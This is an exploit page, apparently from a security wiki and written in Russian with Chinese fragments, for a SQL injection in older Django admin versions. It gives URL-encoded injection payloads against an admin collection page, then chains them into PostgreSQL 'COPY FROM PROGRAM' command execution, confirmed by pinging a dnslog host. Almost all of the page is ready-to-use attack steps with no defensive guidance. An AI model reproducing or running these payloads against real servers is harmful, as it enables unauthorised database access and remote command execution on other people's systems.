 <languages   />

Затронутая версия
-----------------

    Django 2.2.x < 2.2.4

    Django 2.1.x < 2.1.11

    Django 1.11.x < 1.11.23

Эксплуатация
------------

Во-первых, вам необходимо войти в систему в фоновом режиме администратора и получить доступ к странице управления model Collection:

    http://127.0.0.1/admin/vuln/collection/

    http://127.0.0.1/admin/vuln/collection/?detail__a%27

    http://127.0.0.1/admin/vuln/collection/?detail__a%27)%3D%271%27%20or%201%3d1%20--

<div lang="chinese" dir="ltr" class="mw-content-ltr">
Django一般與PostgreSQL一起配合使用，可以嘗試利用PostgreSQL 高權限命令執行漏洞[(CVE-2019-9193)](https://www.pwnwiki.org/index.php?title=CVE-2019-9193_PostgreSQL_%E9%AB%98%E6%AC%8A%E9%99%90%E5%91%BD%E4%BB%A4%E5%9F%B7%E8%A1%8C%E6%BC%8F%E6%B4%9E)

</div>
Посетите следующий URL:

    http://127.0.0.1/admin/vuln/collection/?detail__title%27)%3d%271%27%20or%201%3d1%20%3bcreate%20table%20cmd_execs(cmd_output%20text)--%20

Подтвердите успешно выполненный оператор `no results to fetch `.

доступ:

    http://127.0.0.1/admin/vuln/collection/?detail__title%27)%3d%271%27%20or%201%3d1%20%3bcopy%20cmd_execs%20FROM%20PROGRAM%20%27ping%20test.dnslog.cn%20%27--%20

Команда была выполнена успешно.

### ⚠️️

<div lang="chinese" dir="ltr" class="mw-content-ltr">
`test.dnslog.cn`請修改爲自己的Dnslog

</div>
